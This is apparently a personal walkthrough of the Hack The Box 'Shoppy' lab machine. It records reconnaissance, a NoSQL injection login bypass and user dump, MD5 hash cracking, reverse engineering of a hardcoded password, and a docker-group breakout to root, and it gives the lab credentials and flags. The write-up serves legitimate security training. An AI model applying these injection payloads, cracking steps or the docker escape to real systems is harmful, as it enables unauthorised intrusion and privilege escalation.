





---
tags:
  - nosql
  - mattermost
  - docker
---


- Machine : https://app.hackthebox.com/machines/Shoppy
- Reference : https://youtu.be/AJc53DUdt1M?si=cFusvG-9zN17S-Xs
- Solved : 2024.11.27. (Wed) (Takes 2day)
---
## Summary

1. **Reconnaissance**:
    
    - Scanned target for open ports and discovered services including HTTP and a possible subdomain.
    - Found a web application and potential backend service (Mattermost).
    
2. **Enumeration**:
    
    - Performed directory and subdomain brute-forcing to identify login pages and subdomains.
    - Exploited NoSQL injection to bypass authentication on Mattermost and extract user information.
    
3. **Privilege Escalation to `jaeger`**:
    
    - Used extracted credentials to gain SSH access as a standard user.
    
4. **Binary Analysis**:
    
    - Found a binary executable with `sudo` permissions.
    - Decompiled the binary to identify a hardcoded master password and used it to retrieve further credentials.
    
5. **Privilege Escalation to `deploy`**:
    
    - Used the credentials obtained from the binary to switch to the `deploy` user.
    - Discovered that `deploy` belonged to the `docker` group.
    
6. **Root Privilege Escalation**:
    
    - Exploited Docker group membership to escape the container and gain root access.
    - Retrieved the root flag.

### Key Techniques:

- NoSQL injection for authentication bypass and user enumeration.
- Binary reverse engineering to extract a hardcoded password.
- Docker privilege escalation to break out of a restricted environment.


---

# Reconnaissance
### Port Scanning

```bash 
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.180
Performing quick port scan on 10.10.11.180...
Found open ports: 22,80,9093
Performing detailed scan on 10.10.11.180...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 06:18 EST
Nmap scan report for 10.10.11.180
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Tue, 26 Nov 2024 11:18:27 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 6
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 6
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 1.1191e-05
|     go_gc_duration_seconds{quantile="0.25"} 3.5556e-05
|_    go_gc_dur
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.94SVN%I=7%D=11/26%Time=6745AE82%P=aarch64-unknown-linu
<SNIP>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.43 seconds
```

Overall, there are 3 open ports; `22`, `80`, `9093`. Have no idea what the port `9093` is yet.
The `nmap` scan reveals that the domain of `http` service is `http://shoppy.htb`.
The `nginx` version doesn't seem to be vulnerable yet based on `searchsploit`.
Let's visit `http(80)` first.

### http(80)


The first index page shows that the service is not open yet with timer.
It looks like the site is for online shopping.. Maybe purchase, or storage services are running..?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://shoppy.htb
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.180
+ Target Hostname:    shoppy.htb
+ Target Port:        80
+ Start Time:         2024-11-26 06:27:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.23.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: GET, HEAD .
+ /login/: This might be interesting.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
```

`nikto` scan found that it has `/login` page. Other than that, there's nothing useful.
Also, given the find of `wp-config.php`, I think the server is running on `wordpress` and php.
Before visiting the login page, let's run `gobuster` first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
```

Several pages are found, and `/admin`, `login` pages look interesting..
Let's visit `/login` page.



It's a simple login page. `/admin` is also redirected to this login page. I checked its source code, but nothing useful. I tried to capture the request and response using `Burpsuite` but no useful information found..

Just in case if it has vHosts, let's try `ffuf`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -fs 169 -s
```

No other vHosts found here... What about subdomain?
Let's try finding sub-domains using `ffuf` again.

At this time, I'm using a larger wordlists : `bitquark-subdomains-top100000.txt`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 169
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.180/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload   
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"   
```

`mattermost` is found here.
As long as I know, mattermost is a chat application which can be hosted locally.

### http(80) - Mattermost


I tested this login input with sqli wordlist(`/usr/share/seclists/Fuzzing/SQLi/quick-sqli.txt`), but it doesn't seem working.
Instead, let me try NoSQL Injection.

##### NoSQL Injection

Here are some references:
https://book.hacktricks.xyz/pentesting-web/nosql-injection
https://nullsweep.com/a-nosql-injection-primer-with-mongo/

First let's catch the login request again.

```shell
{"device_id":"","login_id":"admin","password":"passwd","token":""}
```

Based on the article mentioned above, `' || 'a'=='a` can help us inject SQL.

```perl
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
<SNIP>

username=admin%27+%7C%7C+%271%27+%3D%3D+%271&password=test
```

With this query, the expected full query is supposed to be like the following;

`'username'=='admin' || '1'=='1' && 'password'=='test'`
The formula of this will be `False || True && False` => Which ends up being `True`



Now I can see the "Shoppy App" page. On its top right corner, there's `Search for users` menu.
Let me click it.


# Shell as  `jaeger`

### Reuse NoSQL Injection


This shows an input tab for the user search, and once I type in any name, it shows "Download export".



If I click the button, it leads us to JSON page.
Possibly it's using same DB and query logic(NoSQL) on its backend.
So, let me try the same injection query : `admin' || '1' == '1`

This will complete the query like the following;
`'username'=='admin' || '1' == '1'`
If it works, it will retrieve all existing user data.



With the injection query, I can find one more user : `josh`
The information found of `josh` is as follows;

```
_id : "62db0e93d6d6a999a66ee67b"
username : "josh"
password : "6ebcea65320589ca4f2f1ce039975995"
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
<SNIP>

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
Time.Started.....: Wed Nov 27 08:44:35 2024 (1 sec)
Time.Estimated...: Wed Nov 27 08:44:36 2024 (0 secs)
<SNIP>
```

The cracked password is `remembermethisway`
With this credential, let's try logging into mattermost as well.



In the mattermost app, I can find a chat that reveals a new credential: `jaeger` : `Sh0ppyBest@pp!`
Since I couldn't find the username from previous user retrieval, I think I can use this credential to different service.. Maybe ssh(22)?

Plus, `josh` says that `docker` will be deployed on the system. We might need to enumerate to find docker system after getting a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh jaeger@shoppy.htb
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ ls
Desktop    Downloads  Pictures  ShoppyApp        Templates  Videos
Documents  Music      Public    shoppy_start.sh  user.txt
jaeger@shoppy:~$ cat user.txt
bc438c29d7aed07637d4b4a2109c763e
```

The credential works, and I can get a shell.


# Shell as `deploy`

### Enumeration
##### SUID
```swift
jaeger@shoppy:~$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/libexec/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/ntfs-3g
/usr/bin/vmware-user-suid-wrapper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount3
```

Based on GTFOBins, there's no critical executables with sticky bit.
##### sudo -l
```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

##### Investigate binary

There's an unusual executable named `password-manager`, which is deployed on `/home/deploy`.
Probably, there's another user named `deploy` as we can guess from the directory name.

```swift
jaeger@shoppy:~$ file /home/deploy/password-manager
/home/deploy/password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.0, not stripped
```

It's an ELF file which is executable.. With `strings` command, there's no useful information found.. Since there's no clue yet, let's just run it.

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

To extract password from the binary, let's use decompiler. I'm using online decompiler (`dogbolt.org`).

```C++
bool main(void)

{
  int iVar1;
  ostream *poVar2;
  string local_68 [32];
  string local_48 [47];
  allocator local_19 [9];
  
  poVar2 = std::operator<<((ostream *)std::cout,"Welcome to Josh password manager!");
  std::ostream::operator<<(poVar2,std::endl<char,std::char_traits<char>>);
  std::operator<<((ostream *)std::cout,"Please enter your master password: ");
  std::string::string(local_48);
  std::operator>>((istream *)std::cin,local_48);
  std::allocator<char>::allocator();
  std::string::string(local_68,"",local_19);
  std::allocator<char>::~allocator((allocator<char> *)local_19);
  std::string::operator+=(local_68,"S");
  std::string::operator+=(local_68,"a");
  std::string::operator+=(local_68,"m");
  std::string::operator+=(local_68,"p");
  std::string::operator+=(local_68,"l");
  std::string::operator+=(local_68,"e");
  iVar1 = std::string::compare(local_48);
  if (iVar1 != 0) {
    poVar2 = std::operator<<((ostream *)std::cout,"Access denied! This incident will be reported !")
    ;
    std::ostream::operator<<(poVar2,std::endl<char,std::char_traits<char>>);
  }
  else {
    poVar2 = std::operator<<((ostream *)std::cout,"Access granted! Here is creds !");
    std::ostream::operator<<(poVar2,std::endl<char,std::char_traits<char>>);
    system("cat /home/deploy/creds.txt");
  }
  std::string::~string(local_68);
  std::string::~string(local_48);
  return iVar1 != 0;
}
```

The decompiled code reveals that the master password is hardcoded as `Sample`. 
The program compares the user input (`local_48`) with this password (`local_68`) using `std::string::compare`. 
If the input matches `Sample`, access is granted, and it runs the command to display the credentials.
This hardcoding makes it easy to extract the password and is a security flaw.

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

With the extracted password `Sample`, it reveals user `deploy`'s password : `Deploying@pp!`
Let's move up to `deploy` using this credential through `su`

```bash
jaeger@shoppy:~$ su deploy
Password: 
$ whoami
deploy
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

# Shell as `root`

### Enumeration

##### sudo -l & SUID

```bash
$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for deploy: 
Sorry, user deploy may not run sudo on shoppy.

$ find / -perm -4000 2>/dev/null
/usr/sbin/pppd
/usr/libexec/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/ntfs-3g
/usr/bin/vmware-user-suid-wrapper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount3
```

I think it'd be better to have more deep investigation. So let's run `linpeas`.

```bash
deploy@shoppy:/tmp$ ./linpeas_linux_amd64 

<SNIP>

╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users   
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)   

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                            

╔══════════╣ Users with console
deploy:x:1001:1001::/home/deploy:/bin/sh                                   
jaeger:x:1000:1000:jaeger,,,:/home/jaeger:/bin/bash
mattermost:x:998:997::/home/mattermost:/bin/sh
postgres:x:119:127:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

The only useful information is that the current user `deploy` belong to `docker` group.
Which means that the shell we have might be in `docker`.
If so, we have to break out from `docker`.

Here's an useful reference :
<https://gtfobins.github.io/gtfobins/docker/>

To break out exploiting `docker`, we have to run the following command;

```bash
deploy@shoppy:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root

# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ad47c0200333:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

Yeah, now I'm root!

```bash
root@ad47c0200333:/# cd /root
root@ad47c0200333:~# ls
root.txt
root@ad47c0200333:~# cat root.txt
832143b79887fd5a4bcbf099ce22055f
```
